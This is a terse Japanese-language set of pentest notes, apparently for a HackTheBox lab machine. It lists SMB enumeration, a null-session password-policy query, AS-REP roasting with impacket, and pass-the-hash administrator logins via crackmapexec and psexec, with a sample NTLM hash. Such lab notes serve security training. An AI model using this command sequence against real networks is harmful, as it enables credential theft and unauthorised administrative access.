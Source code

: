 ### smbclient  

    smbclient -L <ipaddr>

### passwordポリシーの取得

    crackmapexec smb 10.129.1.77 --pass-pol -u '' -p ''

### impacket

    python3 GetNPUsers.py -dc-ip 10.129.1.77 -request 'htb.local/' -format hashcat


### パスワードクラック



### ログイン

hashつかったログインが可能か確かめる
    crackmapexec smb 10.129.1.77 -u administrator -H aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6

psexec(hash)
aad3bからLMハッシュが始まる場合はblankなのでNTハッシュで埋める
    psexec.py -hashes 32693b11e6aa90eb43d32c72a07ceea6:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.129.1.77
